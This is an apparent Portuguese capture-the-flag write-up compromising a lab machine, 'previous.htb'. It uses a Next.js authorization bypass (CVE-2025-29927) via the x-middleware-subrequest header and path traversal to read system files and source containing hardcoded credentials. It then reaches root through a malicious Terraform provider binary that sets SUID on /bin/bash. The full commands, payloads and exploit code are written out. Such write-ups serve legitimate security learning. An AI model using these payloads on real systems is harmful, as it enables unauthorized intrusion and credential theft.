









Aplicação Next.js vulnerável à CVE-2025-29927 — bypass de autenticação via manipulação do header
x-middleware-subrequest. Path traversal no endpoint de download expõe código-fonte com
credenciais hardcoded. Escalada via Terraform provider malicioso executado como root.
Iniciamos com a enumeração de portas e serviços no alvo.
bash$ bash ~/tools/enumport/script.sh 10.129.66.36
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Nmap done: 1 IP address (1 host up) scanned in 25.31 seconds
Obs: Script personalizado de enumeração: github.com/fstringuetta/enumport
bash$ echo '10.129.66.36 previous.htb' | sudo tee -a /etc/hosts
Ao acessar a porta 80, identificamos uma aplicação Next.js via Wappalyzer. Realizamos enumeração de diretórios:


bash$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt \
-u http://previous.htb/ -t 50 -e --random-agent
http://previous.htb/docs (Status: 307) [--> /api/auth/signin?callbackUrl=%2Fdocs]
http://previous.htb/api (Status: 307) [--> /api/auth/signin?callbackUrl=%2Fapi]
http://previous.htb/signin (Status: 200) [Size: 3481]
http://previous.htb/api-doc (Status: 307) [--> /api/auth/signin?callbackUrl=%2Fapi-doc]
Todos os caminhos redirecionam para /api/auth/signin, exceto /signin que exibe um formulário de login. Comportamento típico do NextAuth.js.
Falha no middleware do Next.js que permite bypass de autenticação via manipulação do header x-middleware-subrequest. O servidor trata a requisição como se já tivesse passado pelo middleware de autenticação.
Referência: JFrog — CVE-2025-29927 Next.js Authorization Bypass
Capturamos a requisição ao endpoint /docs e adicionamos o header malicioso para validar o bypass:

Com o bypass confirmado, enumeramos o endpoint /api usando o header malicioso:
bash$ dirsearch -u http://previous.htb/api \
-w /usr/share/seclists/Discovery/Web-Content/common.txt \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
[19:24:28] 400 - 28B - /api/download
[19:24:52] 308 - 33B - /api/render/https://www.google.com
O endpoint /api/download retornou "Invalid filename" no Burp Suite, indicando que espera um parâmetro específico. Fuzamos para identificá-lo:
bash$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
-u "http://previous.htb/api/download?FUZZ=test" -c \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
-mc 200,301,302,404
example [Status: 404, Size: 26, Words: 3, Lines: 1, Duration: 223ms]
Parâmetro example identificado. Testamos Path Traversal lendo o /etc/passwd:

Usuário nextjs identificado no sistema. Lemos as variáveis de ambiente do processo:
bash$ curl -s 'http://previous.htb/api/download?example=../../../../../../proc/self/environ' \
-H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' \
| tr '\0' '\n'
NODE_VERSION=18.20.8
HOME=/home/nextjs
PWD=/app
NODE_ENV=production
Aplicação rodando em /app. Lemos o server.js para confirmar a estrutura:

Confirmada a existência do diretório /app/.next. Enumeramos recursivamente sua estrutura:
bash# /app/.next/ → server → pages → api → auth
$ ffuf -u "http://previous.htb/api/download?example=../../../../../../app/.next/server/pages/api/FUZZ" \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
-w /usr/share/seclists/Discovery/Web-Content/common.txt -c
auth [Status: 500, Size: 21]

Com a estrutura mapeada, lemos diretamente o arquivo [...nextauth].js (URL-encoded como %5B...nextauth%5D.js):
bash$ curl -s 'http://previous.htb/api/download?example=../../../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' \
-H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
O código-fonte retornado continha credenciais hardcoded na lógica de autenticação:
javascript (trecho)authorize: async e =>
e?.username === "jeremy" &&
e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
? { id: "1", name: "Jeremy" }
: null
jeremy : MyNameIsJeremyAndILovePancakes
Testamos as credenciais via SSH na porta 22:

Obtida em /home/jeremy/user.txt
Verificamos as permissões de sudo do usuário:
bash$ sudo -l
User jeremy may run the following commands on previous:
(root) /usr/bin/terraform -chdir=/opt/examples apply
O Terraform busca o provider terraform-provider-examples no caminho definido pelo arquivo .terraformrc do usuário. Como esse arquivo pertence a jeremy, podemos redirecionar o carregamento para um binário malicioso sob nosso controle.
Inspecionamos o main.tf em /opt/examples:
hclterraform {
required_providers {
examples = {
source = "previous.htb/terraform/examples"
}
}
}
provider "examples" {}
resource "examples_example" "example" {
source_path = var.source_path
}
O .terraformrc original aponta para /usr/local/go/bin. Modificamos para apontar para /home/jeremy:
bashcat > ~/.terraformrc << 'EOF'
provider_installation {
dev_overrides {
"previous.htb/terraform/examples" = "/home/jeremy"
}
direct {}
}
EOF
Criamos o binário malicioso em C que adiciona o bit SUID ao /bin/bash:
c#include <unistd.h>
#include <stdlib.h>
int main() {
setuid(0);
setgid(0);
system("chmod +s /bin/bash");
return 0;
}
bash$ gcc exploit.c -o terraform-provider-examples
$ chmod +x terraform-provider-examples
$ sudo /usr/bin/terraform -chdir=/opt/examples apply

Verificamos o SUID no bash:
bash$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14 2024 /bin/bash
$ /bin/bash -p
bash-5.1# whoami
root

Obtida em /root/root.txt